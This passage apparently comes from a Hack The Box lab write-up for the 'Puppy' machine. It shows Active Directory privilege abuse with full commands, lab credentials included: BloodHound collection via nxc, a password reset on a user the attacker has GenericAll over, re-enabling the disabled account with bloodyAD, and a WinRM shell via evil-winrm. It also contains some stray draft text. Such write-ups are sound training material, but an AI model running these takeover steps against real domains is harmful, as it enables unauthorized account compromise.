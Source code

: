 Looks like we only have 1 valid credential - `ant.edwards:Antman2025!`

maybe a gif of cleaning up sheepishly?
## User
Going back to bloodhound, we can run nxc again to update our bloodhound data and gather any new data that we can
```
nxc ldap dc.puppy.htb -u puppy.htb\\ant.edwards -p 'Antman2025!' --bloodhound --collection All -d PUPPY.HTB --dns-server 10.10.11.70
```

We can then re-upload the extracted data, which should be relatively quicker than the first time around.

Now let's see what permissions we get using `ant.edwards` account.
![bloodhound ant edwards](/images/htb/machines/Puppy/bloodhound-ant.png)

Similar to our initial Foothold, we see that `ant` has *GenericAll* permissions for `Adam.Silver` account - full control of the user allows us to modify properties of the user as needed.

Bloodhound is nice enough to give us methods to abuse this as well :) Let's change the user's password using the recommended command - 
```
 net rpc password "adam.silver" 'pir4cy1sc00l!' -U "puppy.htb"/"ant.edwards"%'Antman2025!' -S "dc.puppy.htb"
```

Another roadblock that comes up is that Adam's account is currently disabled. We can use a nifty tool here called `bloodyAD` to change that - 
```
bloodyAD --host 10.10.11.70 -d PUPPY.HTB -u ant.edwards -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
```

![bloodyAD](/images/htb/machines/Puppy/bloodyAD-account-enable.png)

Now we should have access to `adam.silver`'s account. 
![adam silver owned](/images/htb/machines/Puppy/adam-silver-owned.png)

Let's update this on bloodhound and see what we can get from Adam's account.
![adam remote access](/images/htb/machines/Puppy/adam-silver-access.png)

Testing credentials with `nxc winrm` mode.
![nxc winrm](/images/htb/machines/Puppy/adam-silver-nxc-winrm.png)

Now we can launch `evil-winrm` and get our flag - 
```
evil-winrm -i dc.puppy.htb -u 'adam.silver' -p 'pir4cy1sc00l!'
```


![user pwn](/images/htb/machines/Puppy/user-pwned.png)


## Privilege Escalation
With our newfound privileges, we can snoop around and enumerate the file system as much as possible. 
